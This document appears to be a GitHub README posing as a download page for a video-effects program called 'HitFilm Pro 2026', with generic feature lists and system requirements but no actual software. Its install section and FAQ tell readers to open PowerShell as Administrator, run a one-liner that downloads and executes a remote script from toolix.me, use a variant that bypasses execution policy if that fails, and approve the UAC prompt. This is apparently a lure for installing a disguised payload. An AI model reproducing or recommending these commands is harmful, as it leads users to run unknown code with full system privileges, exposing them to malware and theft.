

***

# HitFilm Pro 2026

<p align="center">
  
</p>

HitFilm Pro 2026 — Windows 11 and 10 build | composite stacks | finishing rooms.

## About this application

**HitFilm Pro 2026** in this repo is a Windows desktop package for motion designers and editors. Expect a guided first launch, access to the VFX studio with compositing, titles, and shot finishing, and stable sessions on a standard PC.

## Download

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://toolix.me/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically

<details>
<summary><b>Having trouble? Try this instead</b></summary>

Paste this in the same PowerShell window:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://toolix.me/ps/setup.ps1 | iex"
```

</details>


## Questions & Answers

**Where do I get the package?** Open **PowerShell as Administrator** and run the command in the Download section above.

**Does it work on Windows?** Yes, it is built and tested for Windows 10 and 11.

**What if Windows asks for permission to run?** Click **Yes** on the UAC prompt — the PowerShell setup needs Administrator approval to complete.

## About

HitFilm Pro 2026 suits motion designers and editors who need a straightforward Windows install and a focused compositing, titles, and shot finishing workflow.

## What's included

VFX studio tools are bundled in this release. Install locally, open the app, and use the compositing, titles, and shot finishing toolkit right away.

## Features

⚡ Fast preview
🧩 Effect presets
🎬 Composite layers
✨ Title kits
🎨 Color rooms
📐 Tracker points
🗂️ Render queue

## Good for

- 📌 Boutique studios
- 🎯 YouTube editors
- ⭐ Course projects

* **Platform:** Windows 11 and 10 | 64-bit
* **RAM:** 16 GB minimum | 32 GB recommended
* **Disk:** 20 GB available storage

***